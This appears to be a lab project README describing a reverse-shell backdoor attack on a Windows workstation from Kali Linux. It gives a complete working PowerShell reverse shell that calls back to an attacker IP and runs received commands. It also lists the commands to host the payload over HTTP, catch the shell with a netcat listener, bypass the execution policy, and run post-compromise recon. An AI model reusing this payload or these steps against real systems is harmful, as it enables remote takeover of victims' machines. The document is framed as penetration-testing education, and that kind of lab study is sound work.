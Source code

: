 
# Reverse Shell Backdoor Attack Playbook

## Overview

This project demonstrates how to create and deploy a malicious PowerShell script to establish a reverse shell on a Windows workstation. The attacker uses Kali Linux to serve the payload and capture the connection, giving them remote access to the victim's machine.

- **Target:** Windows Workstation (SOC.LAB domain)
  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB
- **Attacker:** Kali Linux
  - **IP Address:** 192.168.20.30

## Objective
1. Create a malicious PowerShell script (malicious.ps1) to establish a reverse shell backdoor.
2. Use a web server to serve the payload to the target Windows machine.
3. Make the Windows user download and execute the malicious script.
4. Gain remote access to the victim's machine and execute commands of the attacker's choice.

## Attack Execution Timeline

### 1. **Create Malicious PowerShell Payload**

Firstly, I created a malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell back to my Kali's machine, based on this git and forum ([git]([https://example.com](https://github.com/das-lab/mpsd) and [this](https://learn.microsoft.com/en-us/defender-endpoint/run-detection-test?source=recommendations&view=o365-worldwide):

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.20.30", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)

# Send a message to confirm the connection
$writer.WriteLine("Connected to backdoor!")
$writer.Flush()

while ($true) {
    # Receive command from the attacker
    $command = $reader.ReadLine()
    
    # If the command is "exit", close the connection
    if ($command -eq "exit") {
        break
    }
    
    # Execute the command on the Windows machine and capture output
    $output = Invoke-Expression $command 2>&1
    
    # Send the output back to the attacker
    $writer.WriteLine($output)
    $writer.Flush()
}

# Close the connection
$client.Close()
```

### 2. **Set Up HTTP Server to Serve Payload**

Once the payload script was created, the attacker needed to serve it to the victim machine. This was done by using a simple HTTP server on Kali Linux to host the malicious script:

```bash
python3 -m http.server 80
```

This command starts a web server on port `80` of Kali Linux, making the malicious script accessible to the victim.

### 3. **Start Listener on Kali Linux**

Next, the attacker needs to listen for an incoming connection from the reverse shell. This was done using Netcat (`nc`) on Kali Linux:

```bash
nc -lvnp 4444
```

This command listens on port `4444` and waits for a connection from the victim’s machine once the reverse shell script is executed.

### 4. **Victim Downloads and Executes the Malicious Payload**

The attacker then used the following PowerShell command to force the victim to download and execute the malicious payload:

```powershell
powershell -ExecutionPolicy Bypass -File "http://192.168.20.30/malicious.ps1"
```

This command bypasses the PowerShell execution policy and downloads the malicious script from the attacker’s web server to the target machine. Once executed, the script initiates the reverse shell and connects back to the attacker’s machine.

### 5. **Gaining Access to the Windows Workstation**

Once the malicious PowerShell script was executed on the victim’s machine, the reverse shell successfully connected to the attacker’s machine. The attacker now had remote access to the Windows workstation and could run commands on it.

### 6. **Execute Commands on the Target Machine**

After establishing the reverse shell, the attacker could run various commands to gather information about the system. Some useful commands executed during the attack include:

- **`whoami`** – To confirm the user currently logged in:
  ```bash
  whoami
  ```

- **`tasklist`** – To list all running processes:
  ```bash
  tasklist | Out-String
  ```

- **`net user`** – To list all user accounts on the system:
  ```bash
  net user | Format-Table
  ```

- **`net user labadmin`** – To get detailed information about the `labadmin` user:
  ```bash
  net user labadmin
  ```

These commands helped the attacker confirm the identity of the user, gather information about the system, and identify potential targets for further exploitation.

## Conclusion

In this project, the attacker:

1. **Created Malware**: A malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell backdoor.
2. **Made the Victim Download the Malware**: The attacker used a simple HTTP server to serve the payload and a PowerShell command to make the victim download and execute the script.
3. **Gained Access to the Windows Workstation**: The reverse shell connected back to the attacker’s machine, giving them full remote control over the victim’s system.

With this access, the attacker could now run arbitrary commands, escalate privileges, maintain persistence, and continue exploiting the system.

## Disclaimer

This project is intended for educational purposes only. It demonstrates a common attack technique used in penetration testing to simulate how an attacker might gain remote access to a target system. Unauthorized access to computer systems is illegal and unethical. Always ensure you have explicit permission before conducting any form of penetration testing or attack simulation.
